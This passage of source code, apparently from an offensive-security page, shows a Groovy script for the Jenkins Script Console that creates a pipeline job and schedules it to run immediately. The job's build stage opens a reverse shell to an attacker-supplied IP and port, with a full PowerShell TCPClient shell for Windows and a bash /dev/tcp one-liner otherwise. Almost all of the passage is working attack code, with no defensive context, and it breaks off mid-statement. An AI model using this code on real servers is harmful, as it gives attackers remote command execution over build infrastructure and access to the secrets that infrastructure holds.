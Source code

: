 #### Malicious Pipeline Creation
```groovy
// Create malicious build pipeline via Script Console
def createMaliciousPipeline(String jobName, String attackerIP, int port) {
    try {
        def jenkins = Jenkins.instance
        
        // Pipeline script with reverse shell
        def pipelineScript = """
pipeline {
    agent any
    stages {
        stage('Setup') {
            steps {
                script {
                    def os = System.getProperty('os.name').toLowerCase()
                    
                    if (os.contains('windows')) {
                        bat '''
                        powershell -Command "& {
                            \\$client = New-Object System.Net.Sockets.TCPClient('$attackerIP',$port);
                            \\$stream = \\$client.GetStream();
                            [byte[]]\\$bytes = 0..65535|%{0};
                            while((\\$i = \\$stream.Read(\\$bytes, 0, \\$bytes.Length)) -ne 0) {
                                \\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\\$bytes,0, \\$i);
                                \\$sendback = (iex \\$data 2>&1 | Out-String );
                                \\$sendback2 = \\$sendback + 'PS ' + (pwd).Path + '> ';
                                \\$sendbyte = ([text.encoding]::ASCII).GetBytes(\\$sendback2);
                                \\$stream.Write(\\$sendbyte,0,\\$sendbyte.Length);
                                \\$stream.Flush()
                            };
                            \\$client.Close()
                        }"
                        '''
                    } else {
                        sh '''
                        bash -i >& /dev/tcp/$attackerIP/$port 0>&1
                        '''
                    }
                }
            }
        }
    }
}
"""
        
        // Create pipeline job
        def pipelineJob = new org.jenkinsci.plugins.workflow.job.WorkflowJob(jenkins, jobName)
        def definition = new org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition(pipelineScript, true)
        pipelineJob.setDefinition(definition)
        
        jenkins.add(pipelineJob, jobName)
        jenkins.save()
        
        println "[+] Malicious pipeline '$jobName' created successfully"
        println "[+] Pipeline will establish reverse shell to $attackerIP:$port when executed"
        
        // Optionally trigger the build immediately
        def build = pipelineJob.scheduleBuild(0)
        if (build) {
```